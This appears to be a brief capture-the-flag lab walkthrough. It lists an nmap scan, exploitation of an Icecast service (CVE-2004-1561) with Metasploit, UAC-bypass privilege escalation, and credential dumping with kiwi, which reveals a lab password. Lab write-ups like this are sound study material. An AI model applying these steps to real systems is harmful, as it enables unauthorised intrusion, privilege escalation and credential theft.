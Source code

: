 + Performed standard nmap scan 
	`sudo nmap -sC -sV -p- 10.10.224.113`
+ Service called IceCast running on port 8000
+ Searching cvedetails.com, found CVE-2004-1561
+ Ran metasploit exploit to gain foothold as USER
+ In meterpreter, ran following command to test possible exploits:
	`run post/multi/recon/local_exploit_suggester`
+ Using the first suggested exploit:
	`use exploit/windows/local/bypassuac_eventvwr`
+ Set LHOST to tun IP
+ Set SESSION to 1 
+ run to gain escalated privileges, confirm using `getuid`
+ load kiwi, steal creds to get Dark:Password01!

